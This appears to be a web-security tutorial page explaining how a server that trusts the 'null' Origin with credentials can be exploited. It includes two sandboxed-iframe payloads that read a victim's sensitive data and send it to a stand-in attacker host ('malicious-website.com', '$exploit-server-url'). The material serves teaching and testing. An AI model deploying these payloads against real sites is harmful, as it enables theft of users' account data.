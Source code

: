 # Whitelisted null origin value

The specification for the Origin header supports the value null. Browsers might send the value null in the Origin header in various unusual situations:

* Cross-origin redirects.
* Requests from serialized data.
* Request using the `file:` protocol.
* Sandboxed cross-origin requests.

Some applications might whitelist the null origin to support local development of the application. For example, suppose an application receives the following cross-origin request:

```
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
```

And the server responds with:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

In this situation, an attacker can use various tricks to generate a cross-origin request containing the value null in the Origin header. This will satisfy the whitelist, leading to cross-domain access.

For example, this can be done using a sandboxed iframe cross-origin request of the form:

1. Iframe with `src` attribute with HTML Content is cross domain,

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','vulnerable-website.com/sensitive-victim-data',true);
	req.withCredentials = true;
	req.send();

	function reqListener() {
		location='malicious-website.com/log?key='+this.responseText;
	};
</script>"></iframe>
```

2. iframe with `srcDoc` attribute with HTML Content is not cross domain

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','$url/accountDetails',true);
    req.withCredentials = true;
    req.send();

	function reqListener() {
        location='$exploit-server-url/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```
